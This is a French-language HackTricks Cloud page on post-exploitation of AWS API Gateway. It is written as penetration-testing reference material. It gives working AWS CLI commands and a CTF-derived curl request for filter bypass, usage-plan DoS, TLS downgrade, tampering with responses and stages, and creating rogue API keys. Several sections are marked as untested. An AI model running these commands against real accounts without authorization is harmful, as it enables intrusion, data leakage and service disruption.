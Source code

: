# AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accéder aux API non exposées

Vous pouvez créer un point de terminaison dans [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) avec le service `com.amazonaws.us-east-1.execute-api`, exposer le point de terminaison dans un réseau auquel vous avez accès (potentiellement via une machine EC2) et attribuer un groupe de sécurité permettant toutes les connexions.\
Ensuite, depuis la machine EC2, vous pourrez accéder au point de terminaison et donc appeler l'API de la passerelle qui n'était pas exposée auparavant.

### Contourner le passage du corps de la requête

Cette technique a été trouvée dans [**ce compte rendu CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Comme indiqué dans la [**documentation AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) dans la section `PassthroughBehavior`, par défaut, la valeur **`WHEN_NO_MATCH`**, lors de la vérification de l'en-tête **Content-Type** de la requête, transmettra la requête au backend sans transformation.

Par conséquent, dans le CTF, la passerelle API avait un modèle d'intégration qui **empêchait le drapeau d'être exfiltré** dans une réponse lorsqu'une requête était envoyée avec `Content-Type: application/json` :

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Cependant, l'envoi d'une requête avec **`Content-type: text/json`** empêcherait ce filtre.

Enfin, comme l'API Gateway n'autorisait que `Get` et `Options`, il était possible d'envoyer une requête dynamoDB arbitraire sans aucune limite en envoyant une requête POST avec la requête dans le corps et en utilisant l'en-tête `X-HTTP-Method-Override: GET` :

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Plans d'utilisation DoS

Dans la section **Énumération**, vous pouvez voir comment **obtenir le plan d'utilisation** des clés. Si vous avez la clé et qu'elle est **limitée** à X utilisations **par mois**, vous pourriez **simplement l'utiliser et provoquer un DoS**.

La **clé API** doit simplement être **incluse** dans un **en-tête HTTP** appelé **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateGatewayResponse` et `apigateway:CreateDeployment` peut **modifier une réponse de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateStage` et `apigateway:CreateDeployment` peut **modifier une étape existante de l'API Gateway pour rediriger le trafic vers une autre étape ou changer les paramètres de mise en cache pour obtenir un accès non autorisé aux données mises en cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès non autorisé aux données mises en cache, perturbation ou interception du trafic API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:PutMethodResponse` et `apigateway:CreateDeployment` peut **modifier la réponse de méthode d'une méthode API Gateway REST API existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateRestApi` et `apigateway:CreateDeployment` peut **modifier les paramètres de l'API Gateway REST API pour désactiver la journalisation ou changer la version minimale de TLS, affaiblissant potentiellement la sécurité de l'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact potentiel** : Affaiblissement de la sécurité de l'API, permettant potentiellement un accès non autorisé ou exposant des informations sensibles.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaquant avec les autorisations `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, et `apigateway:CreateUsagePlanKey` peut **créer de nouvelles clés API, les associer à des plans d'utilisation, puis utiliser ces clés pour un accès non autorisé aux API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impact potentiel** : Accès non autorisé aux ressources API, contournement des contrôles de sécurité.

{% hint style="info" %}
Besoin de tests
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
